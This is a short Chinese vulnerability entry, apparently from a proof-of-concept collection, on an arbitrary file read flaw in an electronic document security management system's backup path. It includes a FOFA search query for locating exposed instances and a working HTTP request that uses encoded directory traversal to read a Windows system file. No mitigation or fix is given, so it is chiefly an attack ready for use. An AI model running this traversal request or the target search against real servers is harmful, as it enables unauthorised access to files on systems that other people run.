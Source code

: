 # 电子文档安全管理系统backup存在任意文件读取漏洞

# 一、漏洞简介
电子文档安全管理系统backup存在任意文件读取漏洞，攻击者可通过该漏洞获取敏感信息。

# 二、影响版本
+ 电子文档安全管理系统

# 三、资产测绘
+ fofa`body="docsafe/docsafe.nocache.js"`
+ 特征

![1711559478518-0232de33-0834-4e8b-810e-5f00b48ab8c1.png](./img/ohRPmprCIfKOOSbD/1711559478518-0232de33-0834-4e8b-810e-5f00b48ab8c1-521404.png)

# 四、漏洞复现
```plain
GET /resources/backup/..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5cwindows/win.ini HTTP/1.1
Host: 
```

![1711559503009-cba29cc4-6a6b-4818-bc51-cd05c8112b1e.png](./img/ohRPmprCIfKOOSbD/1711559503009-cba29cc4-6a6b-4818-bc51-cd05c8112b1e-540735.png)



> 更新: 2024-04-20 22:27:26  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ef5aearlcpog05ob>
